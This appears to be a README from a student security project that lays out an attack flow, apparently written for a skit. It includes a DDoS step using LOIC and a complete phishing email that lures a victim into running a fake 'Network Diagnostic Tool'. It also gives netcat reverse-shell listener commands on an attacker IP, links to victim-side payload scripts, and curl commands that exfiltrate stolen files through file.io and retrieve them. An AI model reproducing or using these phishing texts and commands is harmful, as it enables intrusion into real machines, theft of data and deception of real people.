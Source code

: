 # Attack Flow

1. DDoS to a company’s computer to cause slow network traffic with LOIC

2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics

> Subject: ACTION REQUIRED: Irregular Internet Activity Detected <br>
> Date: 19 Feb 2021 05:37:51 -0800 <br>
> From: Security Notice <it-services@support.ipear.com> <br>
>
>
> Dear Fahmi,
>
> As a precautionary measure we have restricted access to your account
> due to irregular internet activity detected.
>
> Please run the attached Internet Diagnostic Tool to resolve the issue.
>
> The Internet Diagnostic Tool is attached below.
>
> To prevent further irregular activity we will restrict access to your
> account within 72 hours if you did not run the full internet diagnostic
> test.
>
>
> To ensure your account is protected at all times, we ask you to complete the
> following steps:
>
> Check that all your computers and mobile devices used to access your account
> have an up-to-date virus scanner to detect any possible malware.
>
> Check whether any of your personal data, especially your alternative address,
> has been changed by clicking on “My Account” on your “Homepage”.
> 
> Go to your “Email settings” then click on “Filter rules” to check whether any
> forwarding rules have been created. If you created a forwarding rule
> yourself, ensure that the email address used is still valid.
>
>
> Thank you for your cooperation.
> 
>
> Sincerely, <br>
> iPear Support
>
> iPear | Support | Privacy Policy  <br>
> Copyright ©2022 Secured Service. 50 Nanyang Ave, Singapore 639798 <br>
> All rights reserved. <br>

3. Gain access to the computer and navigate through the computer’s directories
    - On attacker's computer (Linux with netcat installed), run the following
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - If the victim is using Windows, run the following on the attacker's computer
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - Victim runs the 'Diagnostic Tool' executable file: [Linux](../Attack/victim_linux.py) or [Windows](../Attack/victim_windows.py)
    - Boom! Access granted!

4. Upload whatever files we want to [file.io](https://file.io)
    - Run the following curl script and take note of the **KEY** it returns
    ```bash
    curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```
    Try to stick to the values above as other values may require you to pay for the service.
    
    Returns:
    ```jsonc
    {
        "success": true,
        "status": 200,
        "id": "f00c8350-38a3-11ed-9c58-b7e8b46498c9",
        "key": "dGic53MOudXn", // <-- KEY
        "path": "/",
        "nodeType": "file",
        "name": "Untitled.game",
        "title": null,
        "description": null,
        "size": 1584,
        "link": "https://file.io/dGic53MOudXn",
        "private": false,
        "expires": "2022-09-21T00:00:00.000Z",
        "downloads": 0,
        "maxDownloads": 1,
        "autoDelete": true,
        "planId": 0,
        "screeningStatus": "pending",
        "mimeType": "application/octet-stream",
        "created": "2022-09-20T05:20:27.640Z",
        "modified": "2022-09-20T05:20:27.640Z"
    }
    ```
    - Download all the files after the attack with the following command
    ```bash
    curl -X 'GET' \
        'https://file.io/KEY' \
        -H 'accept: */*' \
        -o 'FILE_NAME_GOES_HERE'
    ```

5. Find another company as our target to attack

6. Perform the same attack again, turns out this company has very good security in place

7. End of our skit
